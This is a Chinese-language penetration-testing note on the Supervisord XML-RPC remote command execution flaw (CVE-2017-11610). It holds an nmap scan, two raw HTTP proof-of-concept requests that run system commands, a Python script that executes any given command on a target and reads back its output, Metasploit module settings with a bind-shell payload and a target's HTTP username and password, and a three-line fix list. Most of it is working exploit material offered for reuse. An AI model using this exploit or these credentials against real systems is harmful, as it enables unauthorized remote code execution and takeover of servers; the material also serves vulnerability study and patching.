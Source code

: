 ```yaml
---
title: Supervisord
category:
- [Kali, Exploit]
tags:
  - null
date: 2020-12-04 20:23:08
top:
updated:
---
```


Supervisord是由python开发的进程控制系统，用于管理后台服务的工具， 作用类似于Linux自带的Systemd程序。

Supervisord采用Client/Server架构， Server跑在系统后台， Client是个命令，通过RPC协议，调用Server提供的API，执行任务。

`RPC协议`指Client通过RPC协议可以在Server执行某个函数并得到返回结果。

## 信息收集
```zsh
sudo nmap -sV -Pn -T4 -sSU -p 9001 -sC  192.168.79.207
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-04 19:10 CST
Nmap scan report for 192.168.79.207
Host is up (0.00011s latency).

PORT     STATE  SERVICE       VERSION
9001/tcp open   http          Medusa httpd 1.12 (Supervisor process manager)
|_http-server-header: Medusa/1.12
|_http-title: Supervisor Status
9001/udp closed etlservicemgr

Nmap done: 1 IP address (1 host up) scanned in 186.59 seconds
```


## Supervisord远程命令执行漏洞-CVE-2017-11610

Requirements：

- Supervisord版本`Supervisord 3.0a1 < 3.3.2`
- RPC端口可被访问
- RPC无密码/弱口令


### BurpSuite复现

直接执行任意命令：

- POC-1

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

- POC-2-慎用(会导致业务程序退出)

```zsh
POST http://192.168.0.15:9001/RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 503
Host: 192.168.0.15:9001
<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import os; os.system("touch /tmp/blahh")</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
```



![supervisord-1](../images/supervisord-1.png)

> 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](/Applications/Joplin.app/Contents/Resources/app.asar/poc.py "poc.py")，直接贴出来吧：

```
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：`./poc.py "http://your-ip:9001/RPC2" "command"`：

![supervisord-2](../images/supervisord-2.png)

### MSF反弹shell
> 需要知道用户密码：espc：what
```
Module options (exploit/linux/http/supervisor_xmlrpc_exec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword    what               no        Password for HTTP basic auth
   HttpUsername    espc               no        Username for HTTP basic auth
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.184.67.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         8103             yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /RPC2            yes       The path to the XML-RPC endpoint
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (generic/shell_bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  10.184.67.1      no        The target address
```


### 漏洞修复

- 升级Supervisord
- 端口访问控制
- 设置复杂RPC密码


参考：  
[Supervisord远程命令执行漏洞](https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html)